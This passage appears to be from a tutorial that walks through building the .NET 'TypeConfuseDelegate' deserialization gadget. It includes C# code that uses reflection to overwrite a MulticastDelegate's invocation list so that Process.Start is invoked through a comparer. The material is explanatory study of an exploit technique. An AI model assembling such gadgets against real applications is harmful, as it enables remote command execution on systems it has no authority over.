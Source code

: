 Although `ComparisonComparer` is an internal class inside `Comparer`, which means it can not be instantiated by other classes than `Comparer`, it is exposed via the `Comparer.Create` method.

![image](GtMHKvuoJZKV.png)

So we have a way to create a `ComparisonComparer`, but our problem now is that `Comparison` expects a method that returns an `int`, and `Process.Start` returns a `Process` object.

This is where `MulticastDelegate` comes into play. To put it simply, a `MulticastDelegate` is just a list of `delegated` methods that are to be invoked one after another. Although we still can not delegate `Process.Start` as a `Comparison<T>` due to the return type, we can exploit a long-standing `.NET Framework` issue where type signatures are not always enforced, and overwrite an already delegated function in a `MulticastDelegate` instance with a method which returns a different type, in this case `Process.Start`.

So let's take a look at the beginning of the gadget code:

```csharp
// We delegate `string.Compare` as a new `Comparison<T>`
Delegate stringCompare = new Comparison<string>(string.Compare);

// We create a `MulticastDelegate` by chaining two `string.Compare` methods in a row
Comparison<string> multicastDelegate = (Comparison<string>) MulticastDelegate.Combine(stringCompare, stringCompare);

// We create a `ComparisonComparer` instance using `Comparer.Create` and pass the `MulticastDelegate` that we created as the `Comparison<T>` parameter to the constructor
IComparer<string> comparisonComparer = Comparer<string>.Create(multicastDelegate);

```

At this point, we have a `ComparisonComparer` instance which will invoke two `string.Compare` methods in a row when the `Compare` method is invoked. This is where the `"Type Confusion"` comes in. Inside `MulticastDelegate` is a private field called `_invocationList` which contains the delegated methods in the order they should be invoked.

![image](lnSisFAUq7lO.png)

Since this is a private field, we can not update it directly, however, we can get around this by using a class called `FieldInfo`:

```csharp
// Get the `FieldInfo` for `_invocationList`, specifying it is a `Non-Public`, `Instance` variable
FieldInfo fi = typeof(MulticastDelegate).GetField("_invocationList", BindingFlags.NonPublic | BindingFlags.Instance);

// Get the `invocation list` from our `MulticastDelegate`
object[] invoke_list = multicastDelegate.GetInvocationList();

// Overwrite the second delegated function (`string.Compare`) with `Process.Start`
invoke_list[1] = new Func<string, string, Process>(Process.Start);
fi.SetValue(multicastDelegate, invoke_list);

```

